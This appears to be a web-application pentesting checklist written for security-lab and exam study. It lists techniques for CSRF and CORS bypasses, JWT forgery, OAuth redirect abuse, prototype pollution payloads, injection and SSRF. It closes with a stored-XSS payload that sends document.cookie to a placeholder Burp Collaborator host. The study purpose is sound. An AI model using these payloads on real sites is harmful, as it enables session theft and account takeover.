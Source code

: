     - Edit the Referer header in the update email request to see if it's rejected. If so, remove it completely to see if it is accepted. If so, generate CSRF POC and include `<head><meta name="referrer" content="no-referrer"></head>` before the body
    - If all else false, see "CSRF with broken Referer validation"
- Check for CORS headers, i.e. `Access-Control-Allow-Credentials`
    - If so, include/change the origin header and see if reflected in the CORS header. If so *see "CORS vulnerability with basic origin reflection"*
    - See if null origin is allowed (more useful if sensitive useful data is included in the `/accountDetails` page.) *See "CORS vulnerability with trusted null origin"*
    - See "CORS vulnerability with trusted insecure protocols" If XSS and CORS are present 
- If a change password feature exists, see if `current-password` is even required. If not, change username to administrator.
    - See if the password change request has a username field. Try to put in `administrator`. Check for behavior similar to "Password brute-force via password change"
    - If the `temp-forgot-password-token` shows up in both URL and request body, see if removing them is still accepted by the server (only really matters if you can edit the `username` field too)
- See if you have to sign in with social media `OAUTH`
    - See if you can change the information sent in the `/authenticate` request
    - See if there is a registration endpoint
    - Check for an `/oauth-linking` endpoint
    - Check the redirect-uri to see if it allows path traversal or arbitrary values
- Look for JWTs
    - Check to see if you can just edit the items
    - Check for RS256 or HS256
        - RS256
            - Check for JWK header injection
            - Try adding a JKU header
        - HS256
            - Check for no signature
            - Attempt to brute force key
            - Try to use kid path traversal with`/dev/null` and a empty key
- If you can change user info,
    - Fuzz for prototype pollution by using `"__proto__": { "status":555 }`  or `"constructor": { "prototype": { "json spaces":10 } }` as a parameter
        - To see the JSON spaces you must be in the RAW view
    - Check for GraphQL enpoints
- Check for race condition see `Lab: Bypassing rate limits via race conditions`, `Lab: Single-endpoint race conditions`, `Lab: Exploiting time-sensitive vulnerabilities`
- Fuzz for NoSQL injection
- Check for /api

## Advanced Search
- Insertion point scan any parameters and forms. (SQLi from practice exam)
- Check for parameters likely vulnerable to ssrf (params with urls in them) i.e. `stockApi`, `path` from SSRF labs.

## Blog posts

- See if anything is different here after authetnication
    - Can you post comments now? Try XSS:  `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>` 
